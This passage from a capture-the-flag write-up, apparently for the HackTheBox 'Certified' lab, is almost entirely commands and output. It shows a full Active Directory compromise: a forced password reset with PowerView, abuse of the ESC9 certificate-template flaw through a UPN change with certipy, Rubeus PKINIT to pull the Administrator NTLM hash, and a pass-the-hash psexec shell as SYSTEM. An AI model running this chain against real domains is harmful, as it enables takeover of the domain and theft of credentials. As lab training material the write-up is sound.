Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\\Users\management_svc\Desktop`:
```
    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/7/2025   3:58 AM             34 user.txt
```

`type C:\\Users\management_svc\Desktop\user.txt`:
```
ac17f***************************🚩
```


`locate -i 'powerview.ps1'`:
```
/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

`cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ./`

`upload PowerView.ps1`:
```
Info: Uploading /home/nabla/PowerView.ps1 to C:\Users\management_svc\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```


`import-module .\PowerView.ps1`

`get-module`:
```
ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.0        PowerView
```

`$NewPassword = ConvertTo-SecureString 'H4ck3d!' -AsPlainText -Force`

`Set-DomainUserPassword -Identity 'CA_OPERATOR' -AccountPassword $NewPassword`


`netexec smb 10.10.11.41 -u 'ca_operator' -p 'H4ck3d!'`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:H4ck3d!🔑
```

`netexec winrm 10.10.11.41 -u 'ca_operator' -p 'H4ck3d!'`:
```
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [-] certified.htb\ca_operator:H4ck3d!
```
❌

`certipy-ad find -u 'ca_operator' -p 'H4ck3d!' -dc-ip 10.10.11.41 -vulnerable -stdout`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA📌
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication📌
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA📌
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn📌
    Enrollment Flag                     : NoSecurityExtension📌
                                          AutoEnrollment📌
                                          PublishToDs📌
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca📌
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension📌
```

`certipy-ad account update -u 'ca_operator' -p 'H4ck3d!' -dc-ip 10.10.11.41 -user 'ca_operator' -upn 'Administrator'`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[-] User 'CA_OPERATOR' doesn't have permission to update these attributes on 'ca_operator'
```
❌


`Import-Module ActiveDirectory`

`Set-ADUser -Identity 'ca_operator' -UserPrincipalName 'Administrator@certified.htb'`

`Get-ADUser -Identity 'ca_operator' -Properties 'userPrincipalName'`:
```
DistinguishedName : CN=operator ca,CN=Users,DC=certified,DC=htb
Enabled           : True
GivenName         : Operator
Name              : operator ca
ObjectClass       : user
ObjectGUID        : 765d4f49-13a9-4bc4-b7ec-8d2672fac421
SamAccountName    : ca_operator
SID               : S-1-5-21-729746778-2675978091-3820388244-1106
Surname           : CA
UserPrincipalName : Administrator@certified.htb📌
```


`certipy-ad req -u 'ca_operator' -p 'H4ck3d!' -dc-ip 10.10.11.41 -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 26
[*] Got certificate with UPN 'Administrator@certified.htb'📌
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'📌
```

`certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.10.11.41 -domain 'certified.htb' -username 'Administrator@certified.htb'`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[-] Name mismatch between certificate and user 'administrator'
[-] Verify that the username 'administrator' matches the certificate UPN: Administrator@certified.htb
```
❌

`certipy-ad cert -pfx ./administrator.pfx -export -out ./admin_cert.crt`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'admin_cert.crt'
```

`openssl x509 -in admin_cert.crt -text -noout`:
```
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            79:00:00:00:1c:08:d9:c0:f6:47:96:f7:1f:00:00:00:00:00:1c
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=htb, DC=certified, CN=certified-DC01-CA
        Validity
            Not Before: Jan  8 22:55:16 2025 GMT
            Not After : Jan  8 23:05:16 2027 GMT
        Subject: DC=htb, DC=certified, CN=Users, CN=operator ca
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:d4:9b:eb:17:fb:49:3f:62:fc:77:1f:5e:33:9b:
                    73:5b:7c:ed:4a:3f:7c:cb:eb:58:df:2b:a3:b9:b9:
                    b7:a7:b6:e2:0f:39:02:8f:bc:0e:d0:46:24:de:ec:
                    0a:0e:8d:68:23:0a:43:d0:05:59:fd:fb:8c:88:a3:
                    b5:6f:be:78:dc:eb:34:c9:1b:25:f2:36:b2:60:5a:
                    87:28:c9:db:61:d6:66:62:29:67:ba:d7:2f:23:53:
                    0a:81:45:1d:8b:89:8f:03:d7:3c:67:e1:8b:96:49:
                    95:bf:0b:8c:a8:d3:bc:0d:f4:53:8d:0f:7f:1a:4d:
                    81:7f:97:b2:a5:db:bf:90:4e:b5:2f:12:a4:34:6d:
                    31:84:4d:54:4b:13:d9:a1:f5:b5:a5:45:64:d0:9a:
                    22:bb:6e:f2:d5:08:e4:41:be:44:cf:d6:68:f1:5a:
                    61:29:ac:8c:26:57:14:dd:06:f3:db:73:5b:bd:c9:
                    33:af:46:c8:92:49:a0:d2:a2:62:5c:ed:78:f7:64:
                    b6:7f:a6:98:3c:b7:15:3b:a1:1f:36:2d:d7:0d:c3:
                    b0:e3:c0:65:5e:d3:80:35:08:81:cb:ba:c6:96:69:
                    2c:87:9f:c4:44:01:60:f1:64:e7:be:4c:3a:8b:1d:
                    0e:61:4c:f3:9e:85:3d:4d:69:f4:a9:9f:2a:02:4d:
                    71:c9
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Subject Key Identifier: 
                93:AD:33:92:51:D6:76:E0:CE:C3:50:C6:61:BE:B1:B2:9E:3E:B2:4B
            X509v3 Authority Key Identifier: 
                EC:FB:12:40:15:A1:BD:C7:D1:2E:3B:2E:4D:4B:72:C0:62:DF:2B:F5
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=certified-DC01-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=certified,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint
            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=certified-DC01-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=certified,DC=htb?cACertificate?base?objectClass=certificationAuthority
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft certificate template: 
                0/.'+.....7.....Z...`...'...)...q.l...Q...N..d...
            X509v3 Extended Key Usage: 
                TLS Web Server Authentication, TLS Web Client Authentication
            Microsoft Application Policies Extension: 
                0.0
..+.......0
..+.......
            X509v3 Subject Alternative Name: 
                othername: UPN::Administrator@certified.htb📌
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        17:2d:3c:16:eb:86:36:a7:3e:c0:05:f8:21:7e:3e:fa:8f:5d:
        13:0e:2e:b1:29:37:9d:6b:0a:01:2f:68:52:0c:b5:a1:0d:3a:
        d7:5a:34:60:88:a8:49:92:23:4a:5c:4e:a6:f2:fd:d8:ca:52:
        d1:32:d3:6e:95:bc:00:01:c0:9f:e4:a7:73:82:28:c0:22:5c:
        8e:de:6f:36:e0:05:56:f9:ac:53:04:00:d3:6f:00:ed:83:b5:
        68:0b:d6:8e:53:d9:da:a1:ab:a7:e3:a7:57:14:89:82:0d:ff:
        a4:3c:10:97:80:5a:fb:46:c7:91:64:aa:e3:11:f1:52:97:96:
        73:f5:74:c9:04:49:22:e4:96:97:85:83:bf:fa:0a:a7:df:9f:
        c2:27:9c:42:cf:0b:9d:bc:07:9a:81:77:6f:be:65:2b:22:69:
        c9:d7:31:7b:0f:07:b4:83:d2:c3:28:c3:e4:65:a0:1e:aa:de:
        01:84:5c:65:e3:1d:17:7b:ac:99:2f:03:b1:1e:1f:b2:2b:c6:
        e3:e8:1b:fb:6f:88:97:4b:c4:2e:c4:20:d6:dc:ef:7f:ca:40:
        27:3a:49:b5:de:0c:6b:e0:77:73:bd:2e:53:7f:27:58:b3:dd:
        6c:cb:8a:b0:93:c2:79:eb:c9:de:2c:00:bb:dd:26:bd:cd:d9:
        87:a9:73:00
No Trusted Uses.
No Rejected Uses.
Alias: 
Key Id: 15:61:22:E2:2F:91:F9:A8:7F:8D:D3:12:E7:F7:3E:17:F7:FA:94:C4
```

`locate -i 'rubeus.exe'`:
```
/home/nabla/tools/Ghostpack-CompiledBinaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v3.5 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.5 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.7.2 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.8.1 compiled binaries/Rubeus.exe
```

`cp '/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.8.1 compiled binaries/Rubeus.exe' ./`

`upload Rubeus.exe`:
```
Info: Uploading /home/nabla/Rubeus.exe to C:\Users\management_svc\Documents\Rubeus.exe
                                        
Data: 595968 bytes of 595968 bytes copied
                                        
Info: Upload successful!
```

`upload administrator.pfx`:
```
Info: Uploading /home/nabla/administrator.pfx to C:\Users\management_svc\Documents\administrator.pfx
                                        
Data: 4076 bytes of 4076 bytes copied
                                        
Info: Upload successful!
```


`./Rubeus.exe asktgt /certificate:administrator.pfx /user:Administrator /getcredentials /show /nowrap`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=operator ca, CN=Users, DC=certified, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'certified.htb\Administrator'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/certified.htb
  ServiceRealm             :  CERTIFIED.HTB
  UserName                 :  Administrator
  UserRealm                :  CERTIFIED.HTB
  StartTime                :  1/8/2025 3:24:28 PM
  EndTime                  :  1/9/2025 1:24:28 AM
  RenewTill                :  1/15/2025 3:24:28 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  wIRIoTS2OodgmknMkIBREg==
  ASREP (key)              :  285D515344E4C7BE8BD405638108AD4B

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 0D5B49608BBCE1751F708748F67E2D34🔑
```

`netexec smb 10.10.11.41 -u 'Administrator' -H ':0D5B49608BBCE1751F708748F67E2D34'`:
```
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\Administrator:0D5B49608BBCE1751F708748F67E2D34 (Pwn3d!)🚀
```

`impacket-psexec 'certified.htb/Administrator@10.10.11.41' -hashes ':0D5B49608BBCE1751F708748F67E2D34'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.41.....
[*] Found writable share ADMIN$
[*] Uploading file wPDfjIdJ.exe
[*] Opening SVCManager on 10.10.11.41.....
[*] Creating service qBcg on 10.10.11.41.....
[*] Starting service qBcg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
🐚


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is EA74-A0A7

 Directory of C:\Users\Administrator\Desktop

10/22/2024  12:15 PM    <DIR>          .
10/22/2024  12:15 PM    <DIR>          ..
01/07/2025  03:58 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,119,815,680 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
ab17b***************************🚩
```


---
---
